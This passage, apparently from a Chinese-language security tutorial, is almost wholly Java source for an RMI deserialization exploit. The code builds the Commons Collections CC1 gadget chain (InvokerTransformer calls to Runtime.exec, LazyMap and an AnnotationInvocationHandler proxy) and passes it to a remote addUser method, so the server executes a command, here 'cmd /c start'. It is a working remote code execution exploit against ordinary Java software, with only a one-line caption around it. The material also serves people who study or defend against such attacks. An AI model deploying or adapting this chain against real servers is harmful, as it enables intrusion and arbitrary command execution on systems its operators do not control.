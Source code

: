 ```java
import java.util.Map;
public class LocalUserClientAttack2ServerByCC1 {
    public static void main(String[] args) throws Exception {
        String execArgs = "cmd /c start";
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{execArgs}),
                new ConstantTransformer(1) };
        Class<?> transformer = Class.forName(ChainedTransformer.class.getName());
        Field iTransformers = transformer.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);
        final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);
        final Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) ctor.newInstance(Documented.class, lazyMap);
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, handler);
        InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Documented.class, mapProxy);
        // ================addUser(Object obj) Object在服务端会被反序列化所以会触发对应的CC1攻击链
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        User user = (User) registry.lookup("user");
        user.addUser(invocationHandler);
    }
}
```

攻击效果如下
